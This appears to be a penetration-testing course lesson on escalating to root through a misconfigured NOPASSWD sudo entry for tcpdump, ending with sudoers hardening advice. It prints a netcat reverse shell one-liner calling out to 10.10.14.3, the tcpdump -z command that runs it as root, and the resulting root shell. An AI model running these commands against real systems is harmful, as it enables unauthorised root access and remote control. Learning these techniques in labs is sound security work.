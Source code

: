 # Sudo Rights Abuse

---

Sudo privileges can be granted to an account, permitting the account to run certain commands in the context of the root (or another account) without having to change users or grant excessive privileges. When the `sudo` command is issued, the system will check if the user issuing the command has the appropriate rights, as configured in `/etc/sudoers`. When landing on a system, we should always check to see if the current user has any sudo privileges by typing `sudo -l`. Sometimes we will need to know the user's password to list their `sudo` rights, but any rights entries with the `NOPASSWD` option can be seen without entering a password.

Sudo Rights Abuse

```shell-session
htb_student@NIX02:~$ sudo -l

Matching Defaults entries for sysadm on NIX02:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User sysadm may run the following commands on NIX02:
    (root) NOPASSWD: /usr/sbin/tcpdump
```

It is easy to misconfigure this. For example, a user may be granted root-level permissions without requiring a password. Or the permitted command line might be specified too loosely, allowing us to run a program in an unintended way, resulting is privilege escalation. For example, if the sudoers file is edited to grant a user the right to run a command such as `tcpdump` per the following entry in the sudoers file: `(ALL) NOPASSWD: /usr/sbin/tcpdump` an attacker could leverage this to take advantage of a the **postrotate-command** option.

Sudo Rights Abuse

```shell-session
htb_student@NIX02:~$ man tcpdump

<SNIP> 
-z postrorate-command              

Used in conjunction with the -C or -G options, this will make `tcpdump` run " postrotate-command file " where the file is the savefile being closed after each rotation. For example, specifying -z gzip or -z bzip2 will compress each savefile using gzip or bzip2.
```

By specifying the `-z` flag, an attacker could use `tcpdump` to execute a shell script, gain a reverse shell as the root user or run other privileged commands. For example, an attacker could create the shell script `.test` containing a reverse shell and execute it as follows:

Sudo Rights Abuse

```shell-session
htb_student@NIX02:~$ sudo tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z /tmp/.test -Z root
```

Let's try this out. First, make a file to execute with the `postrotate-command`, adding a simple reverse shell one-liner.

Sudo Rights Abuse

```shell-session
htb_student@NIX02:~$ cat /tmp/.test

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.3 443 >/tmp/f
```

Next, start a `netcat` listener on our attacking box and run `tcpdump` as root with the `postrotate-command`. If all goes to plan, we will receive a root reverse shell connection.

Sudo Rights Abuse

```shell-session
htb_student@NIX02:~$ sudo /usr/sbin/tcpdump -ln -i ens192 -w /dev/null -W 1 -G 1 -z /tmp/.test -Z root

dropped privs to root
tcpdump: listening on ens192, link-type EN10MB (Ethernet), capture size 262144 bytes
Maximum file limit reached: 1
1 packet captured
6 packets received by filter
compress_savefile: execlp(/tmp/.test, /dev/null) failed: Permission denied
0 packets dropped by kernel
```

We receive a root shell almost instantly.

Sudo Rights Abuse

```shell-session
frank-106@htb[/htb]$ nc -lnvp 443

listening on [any] 443 ...
connect to [10.10.14.3] from (UNKNOWN) [10.129.2.12] 38938
bash: cannot set terminal process group (10797): Inappropriate ioctl for device
bash: no job control in this shell

root@NIX02:~# id && hostname               
id && hostname
uid=0(root) gid=0(root) groups=0(root)
NIX02
```

[AppArmor](https://wiki.ubuntu.com/AppArmor) in more recent distributions has predefined the commands used with the `postrotate-command`, effectively preventing command execution. Two best practices that should always be considered when provisioning `sudo` rights:

|  |  |
| --- | --- |
| 1. | Always specify the absolute path to any binaries listed in the `sudoers` file entry. Otherwise, an attacker may be able to leverage PATH abuse (which we will see in the next section) to create a malicious binary that will be executed when the command runs (i.e., if the `sudoers` entry specifies `cat` instead of `/bin/cat` this could likely be abused). |
| 2. | Grant `sudo` rights sparingly and based on the principle of least privilege. Does the user need full `sudo` rights? Can they still perform their job with one or two entries in the `sudoers` file? Limiting the privileged command that a user can run will greatly reduce the likelihood of successful privilege escalation. |
